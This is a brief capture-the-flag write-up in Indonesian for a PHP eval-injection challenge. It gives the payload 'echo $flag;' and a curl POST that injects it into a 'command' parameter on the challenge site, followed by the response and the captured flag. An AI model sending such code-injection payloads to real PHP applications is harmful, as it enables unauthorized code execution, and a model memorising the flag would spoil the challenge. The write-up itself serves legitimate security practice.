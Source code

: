 Ada sebuah fungsi pada PHP dapat mengeksekusi PHP code didalam fungsi tersebut. Nah coba cari tau nama fungsinya dan cari tau variabel flag nyaa :D

Link : https://web.ctf.rasyidmf.com/chal12/

Payload:
```
command: echo $flag;
curl -X POST -d "command=echo+%24flag%3B" https://web.ctf.rasyidmf.com/chal12/ | grep CTFR            1 ⨯
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   417    0   394  100    23   3310    193 --:--:-- --:--:-- --:--:--  3504
CTFR{3v4l_funct10n_1s_d4ng3r}<!DOCTYPE html>
```
Flag

```
CTFR{3v4l_funct10n_1s_d4ng3r}
```